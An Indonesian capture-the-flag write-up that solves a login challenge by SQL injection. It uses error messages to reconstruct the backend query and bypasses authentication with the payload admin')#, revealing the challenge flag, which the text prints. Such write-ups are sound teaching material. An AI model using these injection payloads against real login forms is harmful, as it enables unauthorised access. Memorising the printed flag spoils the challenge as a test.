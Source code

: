 # login maning (50 Points)
suntikan mungkin bisa membantu <br>
http://ctf.serangkota.go.id:9981/
# Solved
Kita tidak bisa mendapatkan <b>Table</b> ataupun database tersebut karena di proteksi oleh <b>WAF/IPS</b>. Disini saya membuat prototype dari query yang dibuat yaitu
```sql
SELECT * FROM `tb_user` WHERE (username='RasyidMF') AND (password='21232f297a57a5a743894a0e4a801fc3')
```
Disini bisa kita lihat bahwa field <b>username</b> memiliki celah SQL injection, akan tetapi kita harus membypass passwordnya. Dikarenakan passwordnya hasil enkripsi <b>MD5</b>
```
username='&password=admin

Error: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '21232f297a57a5a743894a0e4a801fc3')' at line 1
```
Bagaimana saya mendapatkan <b>prototype nya</b> ? Disini saya harus memberikan komentar SQL untuk mendapatkan query full
```
user='1 #&pass=admin

Error: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '1 #') and (password='21232f297a57a5a743894a0e4a801fc3')' at line 1
```
Query yang dipakai <b>'1 #') and (password='21232f297a57a5a743894a0e4a801fc3')</b> adalah
```
$query = 'SELECT * FROM users WHERE (username=\'' . $user . '\') AND (password=\'' . md5($password) . '\')'
```
Untuk mengekspoit saya mencoba untuk melakukan query ini
```
user=')#&pass=admin

bukan admin, pergi hacker !!!
```
disini kita hanya di perlukan username <b>admin</b> untuk login / mendapatkan flag!
```
user=admin')#&pass=admin

<div class='alert alert-primary' role='alert'>DiskoCTF{1npUt_f1lt3R_d1p3rlUk4N_1289}</div>
```
Flag : <b>DiskoCTF{1npUt_f1lt3R_d1p3rlUk4N_1289}</b>
